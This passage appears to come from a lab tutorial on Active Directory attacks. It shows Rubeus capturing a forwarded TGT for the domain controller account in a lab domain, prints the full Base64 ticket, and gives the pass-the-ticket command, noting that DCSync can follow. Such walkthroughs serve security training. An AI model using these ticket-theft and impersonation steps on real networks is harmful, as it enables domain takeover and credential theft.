 ```
```
Now, if we switch to WS001 and look at the continuous output that Rubeus provide, there should be a TGT for DC1 available:

```
[*] 18/12/2022 22.55.52 UTC - Found new TGT:

  User                  :  DC1$@EAGLE.LOCAL
  StartTime             :  18/12/2022 23.30.21
  EndTime               :  19/12/2022 09.30.21
  RenewTill             :  24/12/2022 09.28.39
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   :

doIFdDCCBXCgAwIBBaEDAgEWooIEgDCCBHxhggR4MIIEdKADAgEFoQ0bC0VBR0xFLkxPQ0FMoiAwHqADAgECoRcwFRsGa3JidGd0    GwtFQUdMRS5MT0NBTKOCBDowggQ2oAMCARKhAwIBAqKCBCgEggQkv8ILT9IdJgNgjxbddnICsd5quqFnXS7m7YwJIM/lcwLy4SHI
i1iWbvsTiu078mz28R0sn7Mxvg2oVC7NTw+b2unvmQ3utRLTgaz02WYnGWSBu7gxs+Il/0ekW5ZSX3ESq0AGwPaqUcuWSFDNNfOM
ws/8MlkJeFSFWeHwJL7FbzuCjZ2x/6UUl2IOYq0Ozaf3R+rDJQ6LqpDVAet53IoHDugduBfZoDHTZFntRAoYrmAWdcnFdUEpyZGH    Kj6i2M0TyrxUp3nq022BNB6v+sHgH3SWsMNiba+TYaeRdjiM2nVjhGZTXDuro9rLkYFk1HPXuI/d0RfzVuq9Hh5hVCZRwcM3V2BN
eYRTMeW+lvz1bBgdgK/wlYMS7J99F1V/r6K8zdO7pQ0Zj216DfA42QINPswVL+89gy7PLLm5aYlw8nlbBdvTZrPbeOhtvdBy/pFB    fxrjHA+fW34/Yk+9k6oSPXCaCQ/Rd1qZ/P57/0MDUYRlDs5EYOOxxGQPVFbOqhbG414vGRbi39ALj/MkYG629kCEb9K89p5teo6f
7w/4M6Ytun16sG3GxsWDG6dlZP+fmmOr0nwdXgvT28NQxQ3EEMErX+BojUY6DdRBH2u3fcv1KOA5K7MDma+cVLaa0YjSYZ2IDRaC    0JcgcUexd6EfQPtSnikaA/zzYmu/PSYVXlcg7cFULJIiPuN4f9VlDlVOqj8C3xCwtYo4zRklLESUES9tGK/VfsmN0Q/Fx5ULIa7y
UND/d1HlQ+R6Fnh2GGUPk+LlVw+ScD0kf2nmmlsIwhnGmscpiFs1lprX35Khlx/y5+v9S7bdokZujPpyZactQ4wdfRK++bOWo2ao    Ewrzjuq199JnTQHbxkqGgeKQedOPxOhDccQLYTm44wH73JuE+XoGKmdGbgXfjSBFlTinP9mvZA12NkQupnGYVzJ2rS1T0nf2VVUW
MfIgh8Nz4xYvDHV1iIV4ZrLI7u7ZwJtrlESgO0H0d/k6CpLxo5L7kzhkU+MJggdUFJvS3HskTxZmewEwSdKJn21YfAG1Q6X0nFqk
HdK3RUvxXcycwMvWdfYH2AW06+98q5h+TSJQrMcrp9gT+khLPD4KL2n6+cvC3BVHqge5Nc16LhW7kcNp+JcIzknwAsCZlaXzhz3X
K78ooLfZGaKGoNnDWLUQpYToVgXXSO53HJ3Vgl0MwctV7l+gJdwMtac0VVhH8EAndeSPnEcNOX8mr/30k+9GwM1wtFQNFB03CdoA    qRJBjyFw1h1KKuc61PTWuxVLwGmezshekwoSLOJ7V9G9qNpVQl0AgtTK2SHeobItuD4rhDc3/0jJ4LzsXJieYbLK7dtVfxYtSbeu
ZqXhd7HcSq5SN4LOmEP1tScir+shxQC+hbs3oYx/rHfj8GDDEZ8UwY6I4JF4pQsApKOB3zCB3KADAgEAooHUBIHRfYHOMIHLoIHI    MIHFMIHCoCswKaADAgESoSIEIDs9gBc+2myj4I7mPmXH542vha3A2zfkHbm/RxnK4oMSoQ0bC0VBR0xFLkxPQ0FMohEwD6ADAgEB
oQgwBhsEREMxJKMHAwUAYKEAAKURGA8yMDIyMTIxODIyMzAyMVqmERgPMjAyMjEyMTkwODMwMjFapxEYDzIwMjIxMjI0MDgyODM5
WqgNGwtFQUdMRS5MT0NBTKkgMB6gAwIBAqEXMBUbBmtyYnRndBsLRUFHTEUuTE9DQUw=

[*] Ticket cache size: 5
```
We can use this TGT for authentication within the domain, becoming the Domain Controller. From there onwards, DCSync is an obvious attack (among others).

One way of using the abovementioned TGT is through Rubeus, as follows.
```
PS C:\Users\bob\Downloads> .\Rubeus.exe ptt /ticket:doIFdDCCBXCgAwIBBa...

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1


```